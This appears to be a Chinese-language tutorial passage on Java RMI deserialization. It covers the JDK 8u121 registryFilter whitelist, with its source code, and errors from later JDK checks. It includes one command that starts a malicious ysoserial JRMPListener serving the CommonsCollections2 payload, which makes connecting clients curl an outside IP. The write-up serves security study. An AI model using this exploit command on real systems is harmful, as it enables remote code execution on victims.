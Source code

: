 ```java
private static Status registryFilter(FilterInfo var0) {
        if (registryFilter != null) {
            Status var1 = registryFilter.checkInput(var0);
            if (var1 != Status.UNDECIDED) {
                return var1;
            }
        }

        if (var0.depth() > 20L) {
            return Status.REJECTED;
        } else {
            Class var2 = var0.serialClass();
            if (var2 != null) {
                if (!var2.isArray()) {
                    return String.class != var2 && !Number.class.isAssignableFrom(var2) && !Remote.class.isAssignableFrom(var2) && !Proxy.class.isAssignableFrom(var2) && !UnicastRef.class.isAssignableFrom(var2) && !RMIClientSocketFactory.class.isAssignableFrom(var2) && !RMIServerSocketFactory.class.isAssignableFrom(var2) && !ActivationID.class.isAssignableFrom(var2) && !UID.class.isAssignableFrom(var2) ? Status.REJECTED : Status.ALLOWED;
                } else {
                    return var0.arrayLength() >= 0L && var0.arrayLength() > 1000000L ? Status.REJECTED : Status.UNDECIDED;
                }
            } else {
                return Status.UNDECIDED;
            }
        }
    }
```

以jdk8u121来说 新增的白名单有:

- Number.class
- Remote.class
- Proxy.class
- UnicastRef.class
- RMIClientSocketFactory.class
- RMIServerSocketFactory.class
- ActivationID.class
- UID.class

首先在本地开启JRMP恶意server监听 它会像连接此server的客户端发送ysoserial的payload`CommonsCollections2` 来攻击客户端:

`java -cp ysoserial_bypass_jdk8u231.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections2 "curl http://195.1.5.20:9999/a"`



#### 其他错误

`java.io.InvalidClassException: filter status: REJECTED`原因是从JDK8u121开始（包括JDK8u121 加入了 sun.rmi.registry.RegistryImpl#registryFilter 的限制

`java.rmi.AccessException: Registry.Registry.bind disallowed; origin /195.0.1.5 is non-local host`原因是 JDK >= 8u141时 sun.rmi.registry.RegistryImpl#checkAccess 会进行来源IP地址的检查 如果请求的IP地址不是本机的IP地址 则拒绝执行bind操作。
